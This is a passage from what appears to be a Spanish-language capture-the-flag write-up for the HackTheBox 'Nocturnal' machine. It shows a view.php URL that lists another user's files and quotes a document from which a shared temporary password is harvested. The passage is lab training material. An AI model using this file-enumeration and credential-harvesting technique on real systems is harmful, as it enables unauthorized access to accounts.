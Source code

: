 Ahora, probamos directamente:

```
http://nocturnal.htb/view.php?username=amanda&file=*.pdf
```

Vemos que `amanda` tiene un archivo:

![amanda-file](/assets/img/nocturnal-easy/Pasted%20image%2020250823151939.png)

viendo un poco el archivo, puesto, veo que en el archivo content.xml viene lo siguiente

```xml
</text:p>
<text:p text:style-name="P1">
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
</text:p>
<text:p text:style-name="P1">
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
</text:p>
<text:p text:style-name="P1">
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.
</text:p>
<text:p text:style-name="P1"/>
<text:p text:style-name="P1">Yours sincerely,</text:p>
<text:p text:style-name="P1">Nocturnal's IT team</text:p>
```
